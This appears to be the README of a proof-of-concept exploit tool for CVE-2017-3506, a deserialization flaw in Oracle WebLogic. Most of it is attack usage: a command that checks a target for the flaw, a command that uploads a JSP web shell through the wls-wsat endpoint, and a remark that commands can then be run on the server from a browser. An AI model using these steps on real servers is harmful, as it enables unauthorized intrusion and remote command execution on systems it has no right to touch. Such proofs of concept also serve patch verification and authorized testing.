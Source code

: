 #### What is this?

This is a poc of CVE-2017-3506(Weblogic XMLDecoder Serialization)

#### How to use it?

###### check vul

```
java -jar WebLogic-XMLDecoder.jar -u http://192.168.174.144:7001
```

![check](./img/check.png)

##### GetShell

~~~
java -jar WebLogic-XMLDecoder.jar -s http://192.168.174.144:7001 /wls-wsat/CoordinatorPortType11 shell.jsp
~~~

![GetShell](./img/GetShell.png)

Then you can execute the command through the browser:

![execut_command](./img/execut_command.png)
